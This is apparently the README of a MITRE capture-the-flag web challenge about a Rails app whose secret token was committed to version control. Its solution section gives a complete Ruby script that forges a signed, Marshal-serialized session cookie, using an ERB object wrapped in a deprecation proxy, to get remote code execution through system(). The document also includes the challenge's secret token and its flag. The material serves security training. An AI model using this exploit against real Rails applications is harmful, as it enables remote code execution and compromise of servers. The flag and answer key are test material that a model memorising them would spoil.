 # Open Source Key Leak

It was (maybe still is?) common for Rails newbs and experts to check the config/secret_key.rb file into their version control system. We did this previously (https://github.com/mitre-cyber-academy/2013-web-400). The original challenge was vulnerable to a SQL injection -- this has been patched, but we are leaving the secret key the same. Usernames, passwords, and the key have also changed. By crafting a cookie using the secret key, competitors can take advantage of a remote code execution by passing a "legit" cookie, having it get un-serialized, and then the code contained in the cookie gets executed.


## Solution

Solution credit: http://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/

    require "net/http"
    require "uri"
    require 'erb'
    require 'base64'
    require 'openssl'

    module ActiveSupport
      module Deprecation
        class DeprecatedInstanceVariableProxy
          def initialize(instance, method, var, deprecator)
            @instance = instance
            @method = method
            @var = var
            @deprecator = deprecator
          end
        end
      end
    end


    secret_token = 'c95f554820d160cac5792840a37900b98b30cd61f7dc7260a7532a8ffe15f46ddfd1e9005d648119a4f77d7f4221cb19ee6ef7d0bd4e08a42436502c212e9848'

    erb = ERB.allocate
    erb.instance_variable_set(:@src, 'thing = Message.first.body; system("echo #{thing} >> public/flag.txt");')

    proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "foo", ActiveSupport::Deprecation)
    my_evil_session_hash = {proxy => 'something'}

    # Serialize your hash
    marshal_dump = Marshal.dump(my_evil_session_hash)

    # Base64 encode this dump
    unescaped_cookie_value = Base64.encode64(marshal_dump).gsub("\n", "")

    # Escape any troublesome characters and remove line breaks altogether
    escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

    # Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
    cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

    # Construct your evil cookie by concatenating the value with the signature
    my_evil_cookie = "_rails_messaging_app_session=#{unescaped_cookie_value}--#{cookie_signature}"

    # BOMBS AWAY
    url = URI.parse("http://localhost:80/") # Make sure you have a trailing / if you are sending to the root path

    req = Net::HTTP::Get.new(url.path)
    req.add_field("Cookie", my_evil_cookie)

    res = Net::HTTP.new(url.host, url.port).start do |http|
        http.request(req)
    end

    puts res.inspect


## Building/Running the Challenge
Step 1: Setting up
    git clone
    ...
    docker-compose up --build -d
    # Wait a minute...
    docker-compose run  --rm web /bin/bash -c "bundle exec rake db:create RAILS_ENV=production && bundle exec rake db:schema:load RAILS_ENV=production && bundle exec rake db:seed RAILS_ENV=production"
    
Step 2: change the docker-compose.yml ports to "3000:80"
 
Step 3: Take the above code and put it into a .rb file and run it 
     change flag.txt to a name longer that 25 characters
     change url: from 80 to 3000 
     
 Step 4: Go to the browser and type localhost:3000/longname.txt and see the key
 
**Competitors will also need to be informed that the file they create needs to have a name longer than 25 characters.**

This project uses the new format of the docker-compose file, which must be installed from https://github.com/docker/compose/releases and requires a version 1.7 or greater.

## Flag

763d661f088cbd9e83ed2d3f6c4865cca6f1d284